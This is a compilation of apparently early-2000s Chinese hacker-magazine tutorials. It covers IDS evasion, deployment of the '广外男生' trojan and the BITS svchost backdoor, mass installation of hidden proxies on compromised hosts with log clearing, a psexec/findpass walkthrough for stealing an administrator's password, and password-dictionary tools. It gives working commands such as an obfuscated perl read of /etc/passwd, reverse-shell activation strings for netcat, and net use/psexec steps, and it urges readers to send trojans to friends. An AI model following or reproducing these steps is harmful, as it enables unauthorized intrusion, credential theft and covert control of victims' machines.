攻击者还可以在此基础上再加以变化，几乎不费吹灰之力就可以加大入侵检测系统的防御难度。例如在 telnet 之类的交互会话中，攻击者企图读取 /etc/passwd 文件。通常，入侵检测系统中存在很多特征码——一些误用操作和后门等，但是这些特征码一般只包含黑客工具名、文件名和程序名。在获得 /etc/passwd 文件的内容时，我们不直接输入 cat /etc/passwd 等命令行，而是通过一个命令解释器（例如：perl）来实现我们的目的：

```perl
badguy@host$ perl -e
'$foo=pack("C*",47,101,116,99,47,112,97,115,115,119,100);
@bam=`/bin/cat/$foo`; print "@bam\n";'
```

从这个命令中，入侵检测系统根本就不会重组出 /etc/passwd 这些字符。显然，防御这种攻击就很困难了，因为这要求入侵检测系统必须能够理解这种解释器如何收到的命令，这恐怕不太现实。当然，入侵检测系统也可以对使用解释器的可疑行为进行报警，但是它很难对攻击行为进行精确的监视。

通过把字符串处理技术和字符替换技术结合到一起，我们可以实现更复杂的字符串伪装。对于Web请求，我们不必使用命令解释器，在我们的请求中使用16进制的URL即可，以下的请求可以被目标Web服务器解释为`/etc/passwd`：

`GET %65%74%63/%70%61%73%73%77%64`

或者

`GET %65%74%63/%70a%73%73%77d`

为了捕获这一个字符串的所有变体，你可能需要1000个以上的特征码进行字符串匹配，这还没有考虑UNICODE。UNICODE提供了另一种字符表达方式。有关UNICODE的IDS欺骗技术细节，本文将不多做讨论。

Whisker中采用的一些IDS欺骗技术：
- IDS-evasive mode 1（URL编码）
- IDS-evasive mode 2（`/./`目录插入）
- IDS-evasive mode 3（过早结束URL）
- IDS-evasive mode 4（长URL）
- IDS-evasive mode 5（伪造参数）
- IDS-evasive mode 6（TAB分割）（not NT/IIS）
- IDS-evasive mode 7（大小写敏感）
- IDS-evasive mode 8（Windows分割符）
- IDS-evasive mode 9（会话拼接）（slow）
- IDS-evasive mode 0（NULL方法）

如果想了解上面这些方法的技术细节，可以参考 *A Look At Whiskers Anti-IDS Tactics*。需要特别说明的是，rfp把Whisker采用的anti-IDS技术单独放到了libwhisker（使用perl编写的）库中，为其他的程序采用这些技术提供了很大的便利。

### Malice

Malice也是一款使用perl写成的CGI漏洞扫描程序，同样是一款Anti-IDS-scanner（反IDS扫描器）。我们可以在它的说明文件中看到如下信息：

Uses null (%00) and HEAD requests to fool IDS (even smart IDS) and firewall systems，意思为利用null(%00)和HEAD请求来欺骗IDS和防火墙。同样Malice的使用也是相当简单的：

```root@sz_unixliu# ./malice5_2.pl

Malice 5.2

Anti-IDS scanner that uses null scans with HEAD requests

Much props to doom for editing this.
Host: www.9836.com
/* 输入检测目标主机的IP或者域名 */
Port: 80
/* HTTP服务端口 */
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Wed, 17 Sep 2003 05:18:24 GMT
Connection: Keep-Alive
Content-Length: 765
Content-Type: text/html
Set-Cookie: ASPSESSIONIDQQDTADTB=HKPKHMCDFVMHGKGKKFDJPGIJ; path=/
Cache-control: private

Checking www.9836.com for CGI holes

Checking 192.168.1.2 for CGI holes
Exploit Found: /scripts/tools/newdsn.exe
Location: /scripts/tools/newdsn.exe

Exploit Found: /?PageServices
Location: /?PageServices

Exploit Found: WebDAV traversal
Location: /secret/secret/sql_tool.shtml

Exploit Found: default.asp
Location: /default.asp
```

从结果还可以看出，它查出了两个Whisker没有发现的缺陷，其中还包含了最新的WebDAV漏洞的发现。malice的另一个不同之处是，它只显示能够的检测结果，大大方便了初学者查看。

本文只是从CGI漏洞监测方面简单介绍了Whisker与Malice的使用，当然它们的用处不只这些，其他方面的应用还需要读者自己去发掘。

## 广外女生
## 男生
### ——木马“广外男生”使用和分析

文／朱平

广外男生运用了“反弹端口原理”与“线程插入”技术，且基于成功的“广外幽灵”的先进技术，服务端运行时隐藏了进程！所有网络操作均插入到其他应用程序的进程中完成。也就是说，即使受控端安装的防火墙拥有“应用程序访问权限”的功能，也不能对广外男生的服务端进行有效的警告和拦截，使对方的防火墙形同虚设！因此，大大加强了“广外男生”的隐蔽性。而“广外女生”其实破防火墙的方式为直接“杀死”，不过太容易被发现啦。且“广外男生”运用了主动连接技术，无论双方在何处，只要二者在Internet上，服务端会主动连接上客户端。而“广外女生”运用的大多是手动连接方式（邮件更新服务端方式也需要手动更新），除非知道对方此时的IP地址，才能连接上，这使得服务端和客户端的连接存在很大的局限性和灵活性。其新特性还表现在：客户端高度模仿Windows资源管理器，除了全面支持访问远程服务端的文件系统；也同时支持通过对方的“网上邻居”访问对方内部网其他机器的共享资源！强大的文件操作功能，可以对远程机器进行建立文件夹，整个文件夹（连子目录、文件）一次删除，支持多选的上传、下载等基本功能。同时，特别支持高速远程文件查找，而且可对查找结果进行下载和删除的操作。更重要的它仍然是免费软件，大家可以不受限制地下载和使用。

现在就来介绍它的具体使用吧。下载后解压缩，你会发现里面只有两样东西，一个应用程序和一个帮助文件，那应用程序就是广外的客户端。点击运行主界面，外型一改“广外女生”的可爱，给人以清新、朴实的感觉，如图1所示。


图1

### 客户端配置

我们先配置好客户端吧。运行菜单设置->客户端设置，弹出设置对话框，我们首先确定客户端最大连接数和客户端连接端口，默认连接数为30，默认连接端口为80，如果你80端口被占用了，可以使用其他端口，这些都根据自己的实际情况配置。IP地址段的过滤：有时候不想让某个网段的机器访问或只想让某个网段的机器连接你的客户端的话，可以在这里输入起止IP段。单击下一步来到第二页，此页是服务端和客户端连接方式的配置，如果你有固定IP的话，勾上“客户端处于静态IP（固定IP选项）”；这样服务端随时都可以连到该固定IP机器上，这种连接方式适合两台机器在同一局域网或客户端IP固定的用户。可一般用户的IP都是动态，所以我们勾上“使用HTTP网页IP通知”选项。来到下一页，IP通知文件设置页面，如图2所示。


图2

对需填写的各项说明一下：客户端IP：当前的客户端IP地址。端口：当前男生客户端正在使用的端口。加密密码：把你的IP和端口加密的密码，由于算法的需要，请使用12位以内的数字作为密码。目标文件：就是目标生成的含有你的IP和端口的HTM文件，你不需要写上路径，程序会自动把该文件生成在男生目录下。以上内容配置好后，单击“下一步”来到FTP服务器设置页面，这步很重要，关系到服务端能否顺利地找到客户端的IP地址并连接，也就是能否主动连接的关键，以下是我的配置，如图3所示。

FTP地址：你的FTP服务器（还要能提供HTTP服务）的IP地址。端口：FTP端口，一般都是21。用户名和密码：你的FTP登录用户名和密码。发布目录：你的网页所放的目录。上传后文件：上传后的文件是否要改名，默认值是和你本地的IP文件同名。配置好后，单击“下一步”，客户端就会自动检测能否跟你的FTP连接。


图3

连接成功后，客户端就会经常把你的IP信息发送到FTP服务器上保存。服务端连接时则通过HTTP读取客户端发送到FTP服务器上的动态IP信息，并连接。如图4所示。


图4

以上为我们的IP信息，为了安全起见，数据实现了加密。服务端读取信息，并解码，连接，这样就实现了主动连接方式。

### 服务端配置

打开菜单设置—>生成服务端，弹出软件声明对话框，点击“同意”，来到下一页服务端的常规设置，如图5所示。

EXE文件名：你的服务端运行后拷贝到系统目录中的EXE文件名。DLL文件名：你的服务端运行后拷贝到系统目录中的DLL文件名；注册表启动项：服务端在注册表中的自动项的名称；你一般可以在`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`中找到该启动项；选项：服务端运行时显示运行标识并允许对方退出，此项选中后，连接时在服务端的系统托盘处出现运行标志，并运行对方主动断开连接。此功能多用于朋友间进行文件传输和


图6

数据交流时，如果你是玩木马的话，就不用勾上了吧。单击“下一步”来到网络设置，如图6所示。

在客户端配置时如果你选择固定IP连接方式，此时你只要选中选项静态IP，填上你客户端的固定IP和你设定的连接端口。因为前面我们们选择的是FTP连接方式，所以这里我们只要填上客户端发送到FTP服务器上的IP信息的URL。单击“下一步”，填上生成文件的路径后，点击“完成”，就会在我们的电脑上生成服务端文件。这样，服务端我们就配置好了。

好了，我们来看看它的远程控制功能。你现在要做的就是把服务端发给你朋友，无论你用什么方法，只要他点击运行了服务端，他的电脑就会主动连接上我们。看看我可怜的朋友点了我给它的服务端后，如图7所示。


图7

怎么有3个相同服务端？看来他不只点了一次是点了3次。连接后我们能做的事情就多了，如图7我们运用的是远程桌面功能；这样就能看见你的朋友在干什么啦。广外男生的功能还有：文件共享、远程注册表管理、进程和服务管理、远程桌面。由于和其他远程控制软件功能差不多，我就不多说了，大家可以看其帮助文件，帮助文件才是最好的教程。

### 服务端卸载

- 1. 用户外男生自带的卸载功能来卸载服务端，方法是：当服务端连上你的客户端之后，到“进程与服务”的页面，点击工具栏上最右边灭使的图标，就可以卸载男生的服务端。
- 2. 手动卸载
    - (1) 打开系统注册表键值如下：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，需要查看广外男生运行的EXE文件。该键值并没有完整运行路径，因为可执行文件在system32文件夹中，可以直接运行。删除该自启动键值，然后在system32系统文件夹中删除相应的EXE文件。
    - (2) 此步骤很重要，虽然以上删除了自启动项，但下次还会启动的。因为广外男生修改注册表使dll自动运行，而且运行之后dll插入explorer进程中，dll是不可以删除的，即使你终止explorer进程，但还是会被插入到其他进程中。此步骤你需要知道广外男生dll文件名称，你可以在system32系统文件夹中查找，文件大小为116KB或者115KB。找到广外男生dll之后复制其文件名称，然后打开系统注册表，点击——>编辑——>查找，然后输入你刚复制的dll文件名称，找到此键值之后删除即可。因为广外男生运行之后随机写注册表使dll能够自动运行，注册表位置是变化的。
        > 注意：一定要利用dll文件名查找整个注册表且删除键值，使广外男生不能自动运行。
    - (3) 重新启动计算机之后删除system32系统文件夹中的广外男生DLL，文件大小为116K或115K。

对于广外男生来说，采用了新的隐藏技术，使程序整体的性能有了提升，但控制功能上并没有太多改进。希望广外程序员能在下一版本有所改进。最后，希望大家把它用在正途上。

---

BITS是什么？它是小榕网站最新提供的一个后门程序，具有“进程管理器中看不到进程”、“平时没有端口，只是在系统中充当卧底的角色”，以及“提供正向连接和反向连接两种功能”3个主要特点，而这些特点恰恰充分克服了我们平时制作的后门不够隐蔽和方便的缺点，喜欢弄这个的读者可要把你的眼睛睁大了！

难度：低

前置知识：无

## BITS：难以觉察的后门

文/图 sofar

2003年9月16日小榕发布了后门程序BITS，这个后门是根据Bingle关于svchost的原理写的，如果大家希望更加详细了解该程序的部分制作原理，可以看看Bingle的那篇文章“创建SvcHost.exe调用的服务原理与实践”（http://www.xfocus.net/articles/200308/601.html，大家也可以在Bingle的网站http://www.binglesite.net上找到）。

BITS是“Background Intelligent Transfer Service”的缩写，让我们暂时借用这个服务和名字吧，因为BITS是一个冒名顶替的后门，可以在不知不觉中实现另一种意义的Background Intelligent Transfer Service。

BITS实际上就是一个bits.dll文件，它以服务的形式存在于系统中，我们可以非常方便地使用Rundll32.exe直接进行安装。通过W32dasm反汇编后得知其有如下几个引出函数。


如果大家想做更加详细的分析，可以跟踪到给出的地址里面去看看。

该程序具有如下特点：

- 1. 进程管理器中看不到
- 2. 平时没有端口，只是在系统中充当卧底的角色
- 3. 提供正向连接和反向连接两种功能（非常不错哦！）
- 4. 仅适用于Windows 2000/XP/2003（这个也是特点哦）

下面我们一起来看看如何使用这个小巧的程序。

### 安装

首先，我们应该下载bits.dll文件，然后拷贝到system32目录中，在Administrators或者LocalSystem的权限下，在命令行中输入以下命令便可以完成该服务的安装：

```
rundll32.exe BITS.dll,Install <Active Strings>
```

Active Strings是用户自己指定的一个特征字符串，用于激活BITS，比如我们使用的特征字符串HD（图1）。

当然，一般我们是远程在有管理员权限的肉鸡上做这个工作，至于如何获得肉鸡和将bits.dll放到对方system32目录中并输入命令安装，这里就不用我来唠叨了，大家各显神通吧。如果你拿不到肉鸡，那这个程序对你来说，就谈不上是什么后门了，不过你可以在自己的计算机上测试，过过后门瘾。

安装后，如发现后面操作不能继续，说明服务没有安装成功，大家可以试试这个命令：

```
rundll32.exe bits.dll,Install rasauto <Active Strings>
```

笔者用前面那个就没有成功，使用后面这个就OK了。后面这个命令应该是将RasAuto服务指向了bits。

Bingle在他的文章“创建SvcHost.exe调用的服务原理与实践”中指出，要通过svchost调用来启动的服务，就一定要在HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost下有该服务名，这可以通过四种方式来实现。这应该就是采用的其中第四种方法（修改现有服务组里的现有服务，把它的ServiceDll指向自己）吧。我们在HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RasAuto\Parameters中也可以发现键值ServiceDll指向了C:\WINNT\system32\bits.dll，或许这也正说明了这个问题。

这里，我们谈一下Rundll32.exe这个文件：Rundll顾名思义便是“执行Dll”，它的功能就是以命令行的方式调用Windows的动态链接库（Rundll32.exe与Rundll.exe的区别就在于前者是呼叫32位的动态链接库，而后者是用在16位的动态链接库）。比如我们打开cmd.exe，然后输入命令“rundll32.exe shell32.dll,Control_RunDLL”，回车，我们将会打开控制面板。怎么样，是不是很有趣？

rundll32.exe使用的函数原型是：

```
void CALLBACK FunctionName(
    HWND hwnd,        // handle to owner window
    HINSTANCE hinst,  // instance handle for the
DLL,
LPCTSTR lpCmdLine;   // string the DLL will parse
int nCmdShow         // show state
);
```

其对应的命令行是rundll32，DllName，FunctionName [Arguments]

第一个参数为我们需要调用的动态链接库的DLL文件名，第二个参数便是我们需要调用的该动态链接库的一个具体引出函数，后面的Arguments为相应的函数参数。

### 卸载

卸载就更加容易了，直接输入以下命令，重启后就可以了。

```
rundll32.exe BITS.dll,Uninstall
```

通常情况下安装和卸载无论成功或者失败都不会有提示。

### 正向连接

在我们进行连接之前，我们应该保证BITS服务已经安装到了目标机器之中。

首先，我们用nc连接目标主机的任何一个TCP端口（80/139/445……），然后按照以下格式输入激活命令：

```
<Active Strings>@dancewithdolphin[xell]:<PORT>
```

比如这里我们的Active Strings为“HD”，想将CMD绑定在端口1234，那么我们就输入激活命令“HD@dancewithdolphin[xell]:1234”，这样目标主机就将CMD绑定在了1234端口上面。下面我们就可以通过nc来连接目标机器的1234端口以控制对方机器了。如图2所示，我们已经可以控制对方机器了。

或许你会问，我们输入的特征字符串是HD，为什么这里是HD@dancewithdolphin，其实这是程序自动将HD和@dancewithdolphin组合成为了最后的特征字符串，你可以看看注册表中HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Svchost\netsvcs位置的子键中，你会发现有一个名为Strings的子键，其值正是HD@dancewithdolphin，并且这个值我们可以自己修改（比如修改为HD@ilovehd，不过修改之后需要重启，并且在输入激活命令的时候也需要作相应修改）。

按照我们上面创建的特征字符串、监听的端口和本机的IP（10.0.0.108），我们的激活指令应为：

```
`HD@dancewithdolphin[rxell]:10.0.0.108:2345`
```

当我们输入以上激活指令回车之后，我们的监听窗口应该就已经开始有所反应，并且已经可以对目标机器进行控制了，如图5所示。

需要注意的是，以上所有的输入都对大小写敏感，如果你的命令不能成功，检查一下是不是大小写的问题。

> 本文只是对该程序的使用做了个大致介绍，希望可以起到抛砖引玉的作用。对于本程序的那三个特点的具体技术实现，应该也是广大读者感兴趣的内容。在小榕论坛听说小榕准备公布该程序的部分源代码，到时候我想大家会更加清楚其中的原理。如果大家有更加详细的分析，或者对这些技术有比较深入的研究，希望可以写出来与大家共同分享。

### 反向连接

在很多情况下，我们的目标主机都是躲在防火墙后面的，这时候我们就需要考虑反向连接。首先，我们需要在本地使用nc进行监听（如：`nc -l -p 2345`），这样便于接收目标主机对我们自己使用的计算机发起的连接（图3）。

然后，我们就需要打开另外一个CMD窗口，用nc连接目标主机防火墙允许的任何一个TCP端口（80/139/445……），这里我们仍然使用139端口。连接之后，我们就需要输入激活命令了（图4）。

这里和上面正向连接有所不同，我们必须告诉目标机器我们使用的计算机的IP地址以及监听地址，这样，目标机才能够与我们建立连接。该激活指令格式为：

```
`<Active Strings>@dancewithdolphin[rxell]:<Your IP>:<Listen Port>`
```


## IP 代理自己找
文/雪儿心缘

在上网时，经常会不经意地暴露自己的IP地址。对于网络信息化的今天，暴露自己的IP地址，有时等于将自己的电脑敞开来给大家看，只要稍有经验的人都可以运用一些手段进入你的电脑进行一些操作，如果让不法分子进入到你的电脑中，那后果真的不堪设想。所以，好多的朋友开始使用代理IP。


而对于那些真正的黑客们来说，在进行各种黑客的任务之前，都得通过数个代理服务器来上网或是创建自己的Sock5跳板电脑来隐藏自己的电脑IP。本文将向大家介绍如何查找代理。

### 一、使用代理猎手

有许多的软件可以找代理IP，比如“代理猎手”，首先让我们看看代理猎手是怎么使用的。

首先添加任务，第一步选择搜索范围，然后下一步添加扫描地址，在IP地址起始栏中键中IP的起始地址，将这段IP添加到扫描范围中。（图1）

然后我们再来添加端口及协议，一般默认端口：HTTP是80、3128、8080；Socks是1080、1813。


然后在端口栏输入8080，在要找的服务器类型里我们先选择HTTP服务，将必搜选项前打钩。（图2）这里我们只是扫HTTP代理服务，所以这里我们也输入8080。

按下“完成”按钮会回到主界面，然后开始搜索，在搜索任务里会显示正在扫描的地址（图3）。

扫描完成后再选择“搜索结果”标签页，在这里可以查看扫描后的结果，这时在验证状态中出现“要密码”及“不符合协议”、“不匹配”的地址通常都不可用。显示Free表示可使用，将该IP抄下来或是在IP地址上单击鼠标右键选择“加入调度”（图4）。

此时可以对这些IP地址加以验证，也可以在“代理调度”标签中进行验证，当在验证状态中看到Free字样，则这些选用的服务器都是可用的。

- 没有使用任何杀毒软件与防火墙程序；
- 操作系统是WinNT、Win2K或是WinXP的电脑；
- 系统一般不会记进任何网络连接记录。

知识不足的一般上网个人用户。

其实说了这么多，一般能满足上述条件的电脑无非主要就是个人电脑（比如个人架设的网站或服务器，或一般的小公司对外连接的主机），还有各种网站或FTP服务器。虽说这两种都有其缺点，但是这世界上十全十美的事是没有的，所以就按以上的说明找一些合适的吧！

### 二、使用QQ代理公布器来查找代理

此软件下载安全后就可以看到非常简洁的界面（图5），它从网络上提取代理IP的一款软件，其使用方法非常简单，所以笔者不在此介绍。另外，还有一些代理地址查询的网站。

- 代理地址查询：
- http://www.lk52.com/ip/
- http://ip.loveroot.com/index.php
- http://www8.big.or.jp/~000/CyberSyndrome/
- http://www.proxymania.com/page1.html
- http://e786.com/ip
- http://www8.big.or.jp/~000/CyberSyndrome/
- http://www.proxymania.com/page1.html

但是，由于代理服务器的IP地址有时候会更换，而有时候网上公布的IP代理资源可信度比较低，那么如何创建自己所需要的代理（或是Sock5跳板）呢？

第一步，我们得明确用来作为代理或是跳板的电脑，一般都得具备以下的条件：

- 最好24小时都与网络保持连接；
- 使用固定IP；
- 使用宽带上网；
- 没有网络管理人员在管理，最好是网络安全知识不足的一般上网个人用户；
- 没有使用任何杀毒软件与防火墙程序；
- 操作系统是WinNT、Win2K或是WinXP的电脑；
- 系统一般不会记进任何网络连接记录。


关于如何制作代理的问题也一致困惑着很多读者，那么如何用简单的方法制作代理是不是一种奢想呢？看完本文作者介绍的如何使用Ssso批量制作代理服务器，相信你一定会有所收获。

## 用 Ssso 批量制作代理服务器

文／Smile0 V

Ssso代理远程安装工具包是Stunnel + Sock5 + SocksCap + OpenSSL的缩写，是突破网络封锁的有力工具，它工作的原理是让国内上网的电脑通过一条高强度加密的（SSL）的数据通道访问被屏蔽的海外网站（图1）。


首先，我们要创建自己的SSL证书，点击“开始→程序→Ssso Tool→创建证书”（一旦运行请不要中途终止，否则不但不能创建证书，连原来的证书也会失效）。程序将会向你询问以下问题：

- Country Name: （回答你的国家名称，必须是两个字母，如美国是US，中国是CN）
- State or Province name: （回答所在的州或省的名称）
- Locality Name: （回答所在城市的名称）
- Organization Name: （回答所在机构、组织的名称）
- Organizational Unit Name: （回答所在的部门名称）
- Common Name: （回答服务器上网站的名称，如www.abc.com）
- Email Address: （回答你的E-mail地址）


图1

Ssso代理服务器的特点：安全——采用无法破译的SSL方式加密，而且证书可以自己随时更换；多用——可以用来上网浏览，在QQ、ICQ、Msn、Ftp、Smtp等程序中使用；隐秘——远端解析域名，安全证书自定，保护上网者隐私。

接下来证书会自动生成，并自动添加进Ssso工具包安装目录下的服务器端隐藏安装程序（s.exe）中。点击程序菜单中的“查看证书”，可以查看证书的信息。

这次我们使用的是Ssso代理远程安装工具包V5.1大众版，下载地址http://rj.xrl.cc。安装后将在开始菜单创建一个程序组。下面就进入正题，并开始制作我们的代理服务器吧！

此版内置了一个动态主机IP通知程序，服务器每次上线都会往你的E-mail信箱发送一封带有服务器当前IP地址的信件（你要首先设置接收信箱：在开始菜单运行“信箱设置”，按提示完成）。

在远程服务器安装Ssso代理，简单说就是首先搜索海外有IPC漏洞的服务器，然后把服务器端隐藏版程序s.exe（实际上是改了图标的bouncer.exe），较国内的snake代理更为稳定快速，默认安装端口为443）上传到远端服务器的system32目录下运行。下面是使用Ssso工具包自带的Ssso助手在远端服务器安装的全过程：

- 使用Ssso自带的“IPC扫描器”对海外主机进行扫描，在“开始”和“结束”栏填写要扫描的海外IP段，点击“扫描”，不一会儿就会扫出大量有IPC漏洞的海外主机，保存有效结果备用（图2）。


图2

- 打开“Ssso代理安装助手”，将搜索到的海外服务器IP填写到“基本设置——对方主机IP”中（建议在开始前首先检查一下对方的443端口是否被占用），填写用户名和密码，点击“IPC连接”按钮（图3）。


图3

- 连接成功后，点击“上传文件——开始上传”，上传所需时间由你的速度决定。
- 上传s.exe成功后，点击“设定计划——查看远程主机时间”，有时会得到两个时间，我们只用远程主机的本地时间，将这个时间再滞后几分钟（如得到远程主机的本地时间是下午02:00，则填写14:02，就是说要使用24小时制）填写到“计划在远程主机运行程序的时间”栏中，然后点击“下达远程命令计划”按钮。没有意外的话，时间一到，远程的服务器就会运行此命令安装Ssso代理。点击“查看远程计划任务清单（清单为空则表示已经运行）”按钮，可以查看下达的任务是否执行（实际上不过是图形化了的AT命令）。
- 如果任务已经执行，我们就要对这个Ssso代理进行验证了，点击“验证Ssso”，填写验证的端口，点击“验证Ssso代理”。成功的话，一个Ssso超级代理就做好了。
- 点击“善后处理”，填写连接的IP，清除远程主机日志和断开该IP的连接（考虑得很周到吧^_^）。
- 在结果调度中您可以测试代理的状态，删除失效的代理，选用速度较好的代理来使用（图4）。


图4

这样，不需要太长时间我们就可以制造出大量的Ssso代理来。当你已经丰衣足食的时候，别忘了帮助一下还在四处寻找代理的朋友们哦。

## 如何挖出管理员的密码

文／水灵

前段时间得到一个可以找到管理员密码的工具。拿来在自己的爱机上先使用一下，竟然把自己深思熟虑了很久才想到的密码显示在显示器上。后来想想能不能在别的机器上使用，特别是有弱口令的机器，如果能利用此工具得到管理员的密码，那不就可以为所欲为了么？

现在就请出它们，一共用到X-Scan-v2.3-cn（用来扫弱口令的）、psexec.exe（远程连接对方命令窗口的）、pulist.exe、findpass.exe 4个工具，后两个就是我们今天最大的功臣，等一会你们就会见识到它们的强大功能。

- 第一步，先拿出你的X-Scan-v2.3-cn填上IP地址，设置好参数，因为我们主要是扫一些有弱口令的，所以你可以在扫描参数上选择NT-server弱口令，如果这个用户的权限太低，你可以附带扫描漏洞。“开始扫描”。当你看到如图1所示就证明可以了，得到一个弱口令，用户名为`gf`，口令为`123456`。


- 第二步：打开你的cmd，以此用户名和口令建立IPC连接，在CMD状态下输入命令`net use \\xxx.xxx.xxx.xxx\ipc$ "123456" /user:"gf"`，如图2所示。


OK命令成功，好了，试着看看此用户的权限大不大，复制一个文件看可不可以，如果提示成功，那恭喜你，你的下面的操作将畅通无阻了。

- 第三步：快点把那两个重要的工具复制到对方的机器中去吧。在CMD状态下，输入命令`copy pulist.exe \\xxx.xxx.xxx.xxx\admin$\system32`，回车，再输入命令`copy findpass.exe \\xxx.xxx.xxx.xxx\admin$\system32`，回车，得到如图3所示的内容，一切就绪。


- 第四步：复制成功了，这次要用到psexec.exe连接到对方的CMD中去。这个小工具也是挺厉害的一个远程连接对方的利器，它比Telnet还好使，它的格式是：`psexec.exe \\ip(对方机器的) -u 用户名 -p 密码 cmd.exe`，这是开对方命令窗口的，一旦成功你就可以像使用自己的命令窗口一样，在里面输入命令来查看对方机器里的文件或执行一些程序。简单介绍这么多，快开始干活吧，现在在你自己的CMD状态中输入命令`psexec.exe \\xxx.xxx.xxx.xxx -u gf -p "123456" cmd.exe`回车即可（图4）。


- 第五步：看到上面图4了吗？这时你已经在对方的命令窗口中了，所有的命令都是显示对方的，所以DIR一下，看你刚才复制的文件有没有，在CMD状态下输入命令`dir pulist.exe`回车，得到图5所示的内容，很好，有这个文件。同理，`dir findpass.exe`回车，两个文件都存在。这下你离成功不远了。


- 第六步：这是挺关键的一步，你要找到对方的管理员的名称和他所在的域，还有就是它的 WINLOGON.EXE 所对应的值，这个值很重要的，一定要记住。在 CMD 状态下输入 `pulist.exe` 回车（图6），你就会看到你所需要的东西。


WINLOGON.EXE 所对应的 ID 值是 232，往下找看到我框的那些了吗？YCSF-MZQ\Administrator 这几条都一样的，那么前面的这个就是这个管理员所在的域，后面就是它的默认的用户名。现在你把它们都记下了吗，我们要开始下一步了。

- 第七步：这一步要请出我们的最后的一位功臣：findpass.exe 这个工具，它的格式是这样的 `findpass.exe 域名 用户名 WINLOGON.EXE 所对应的 PID 值`，就如我现在找到的这台机器，它的 WINLOGON.EXE 所对应的值是 232，域名为 YCSF-MZQ，而用户名就为默认的 ADMINISTRATOR。所以，我们就可以输入命令为：`findpass.exe ycsf-mzq administrator 232`，输完回车。这时候你可不要离开，因为我们那么长时间就是为了等待这一刻的，我们这时候应该保佑对方的机子千万别关机，我们好不容易走到这一步，如果关机，那岂不还要重来一次（唉，谁又打了我一下，说那么多废话干吗……）。快看，出来了，如图7所示：The logon information is：ycsf-mzq/administrator/ycmzq，这个跟在其后的就是管理员的密码了。


- 第八步：其实到第七步就已经完了，不过，如果你不想让那些细心的管理员发现的话，最好看完此步：这一步就是要把你复制的两个文件从对方的机器中清除掉，很简单，在对方的 CMD 状态下输入命令 `del pulist.exe` 回车；`del findpass.exe` 回车，最后 `Exit` 退出对方的 CMD，回到自己的 CMD 状态下来。到这里，应该算是完美的结束了（图8）。


好了，最后就是断开对方的 IPC 连接。现在你已经知道管理员的密码，以后的工作就看你自己的需要了。

最后要声明的是：写这篇文章纯属与大家交流，一切后果都与本人刊物和出版社无关。

## 字典工具也疯狂

文／独行者

字典是黑客进行入侵的必备品，好的字典有助于减少入侵所用时间，常常是入侵成功的关键，那么如何得到一个好的字典呢？通常我们会使用字典工具生成一个字典，所以说应选择一款好的字典工具非常重要。下文将对几款字典工具进行比较，供大家参考。


字典是我们常用的一种黑客工具，一般就是一个密码集，里面包含了我们需要的全部密码的集合，然后用特定的程序加载，从而实现暴力破解目标密码的功能，本文不讨论怎么入侵、怎么攻击，我们来说说常用的密码字典工具。

### 1：万能钥匙

**生成字典内容：** 包含几乎所有密码集合  
**星级：** ★★★★★

这是最常用的一个密码字典工具，它是苏州大学文学院的沈洁用 c++ 编写的，功能强大，操作简单，根据用户配置可以生成任意的密码集合（如图1）。

据出生的年、月、日选择密码范围，还可以选择用4位数来表示年份和“十位补0”方式来表示月份，如19800807，生成的字典大概只有1万行；姓名字母——这是万能钥匙编制得很好的地方，它非常好地揣摩了中国人的姓名特点和上网族用自己的姓名作为密码的特点，详细罗列出了“姓、姓+名字、姓+名字声母”等姓名密码构成方式（图2），详细且科学，生成的字典有5万行；英文数字——包含计算机中常用术语、网络术语150个，常用数字175个，这些都是经过长期筛选确定下来的，对付一般上网族的密码比较管用。当然，要是你要使用暴力法破解数字密码，那就只有选择最后一个“其他数字（0-999999）”；不过，这样生成的字典会非常的大！


图1


图2

万能钥匙包含了4个部分的配置：电话号码，包括普通的7、8位座机电话、数字移动电话或者寻呼机的号码，生成的字典大概有1700万行；出生日期——也就是我们常说的生日号码，可以根据和同类字典生成工具比较起来，万能钥匙的功能、范围是非常杰出的，不管是喜欢网络安全的骨## 灰级老大和新人们的菜鸟们都可以很方便很全面地通过它来得到想要的密码集——但万事都不可能是完美的，万能钥匙也是如此：如果你选择全部的配置项目，生成的字典将会超出你想象的大！而且万能钥匙生成字典的过程也相对来说慢了一点，我想如果是全部配置，普通用户的计算机会非常的累，所以要是你想使用它来生成字典，那么建议你分类生成字典（图3）。


图3

## 2．生日密码生成器

生成字典内容：专门针对生日密码生成字典

星级：★★★★

生日密码生成器是Prince.BBSt编写的，“简单、实用、专一”，可以用来很贴切地形容这款字典工具软件，可以毫不夸张地说：如果你的密码是使用的自己的生日，那么用生日密码生成器打造的密码集中一定包含了你的密码（图4）！


图4

这款软件最好的地方就是可以通过使用者所知道的信息来配置相应范围（实际生活中往往就是这样的情况）。比如现在我只知道某人的生肖，那我就可以通过选择软件里面“生肖”的项目来缩小字典范围；同样，我只是得到了别人的星座，我也可以通过设置来大大减小密码字典的长度（图5）。这样功能使用起来非常方便，能大大提高破解的时间和几率，实际上就是在程序中集成了特定的算法，这个算法可以通过确定生肖和星座来确定年份，相信这点难不倒大家，这里不再赘述。


图5

我们知道：就算是使用生日作为自己的密码，配置的方式也千奇百怪，比如同一个生日，1978年1月2日，有的人使用“19780102”作为自己的密码，有的使用“1978.1.2”做为自己密码，还有人或许会用“7812”做为密码……每个人的想法都是不同的，生日密码生成器也想到了这一点，它提供了76种不同的密码组合方式，在使用的时候可以选择一种方式来生成所有的密码，也可以用多种样式来生成同样的密码，堪称经典！具体组合方式见图6。


图6

## 3．字典专家

生成字典内容：所有密码字符　星级：★★★

字典专家也是款可以生成任意密码的字典工具，但是它的生成方式和常用的同类软件不同，它是采用按段（位）的方式输入密码的（最大可以定义16段密码），如图7所示。也就是说，我们可以先设置密码共有几段（位），然后根据每段（位）密码的猜测情况来选择不同的字符，比如我们认为别人的密码前面是自己名字的缩写，是英文小写字母，后面是自己生日号码的数字，一共有7段，那么我们可以在字典专家中这样进行设置：前两段设置小写的字母作为密码，第三段因为不确定是数字还是字母，可以同时选择数字和字母，后面几段就选择数字，然后生成密码字典，这样的字典将非常准确！


图7

